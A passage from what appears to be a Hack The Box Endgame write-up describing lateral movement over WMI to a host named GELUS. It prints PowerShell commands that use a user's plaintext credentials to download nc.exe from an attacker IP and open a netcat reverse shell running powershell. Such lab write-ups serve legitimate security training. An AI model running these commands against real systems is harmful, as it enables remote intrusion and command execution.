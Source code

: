 We can assume, that if rrodriguez can use some **Wmi**Monitor stuff, then he should have remote WMI access to some other box on the net, Gelus, for example. Remembering about the double-hop issue when doing things over remote PowerShell, I will explicitly define rrodriguez's creds and try some basic [WMI command](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/).

[![lux-test-wmi.png](/assets/images/htb/endgames/rpg/lux-test-wmi.png)](/assets/images/htb/endgames/rpg/lux-test-wmi.png)
{:.center-image}

From here I can run a simple PowerShell reverse-shell with `Invoke-WmiMethod` (remember that the `-EncodedCommand` option can accept up to 8190 characters), upgrade to nc.exe and look around.

[![lux-wmi-to-nc.png](/assets/images/htb/endgames/rpg/lux-wmi-to-nc.png)](/assets/images/htb/endgames/rpg/lux-wmi-to-nc.png)
{:.center-image}

Or just do it quicker like this:

```
PS > $cred = New-Object System.Management.Automation.PSCredential('rrodriguez', $(ConvertTo-SecureString 'I@mabArb13g1rl1n@barbi3w0rld' -AsPlainText -Force))
PS > Invoke-WmiMethod -Credential $cred -ComputerName GELUS win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.14.14.37/nc.exe', 'C:\Users\rrodriguez\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName GELUS win32_process -Name Create -ArgumentList ("C:\Users\rrodriguez\music\nc.exe 10.14.14.37 1337 -e powershell")
```
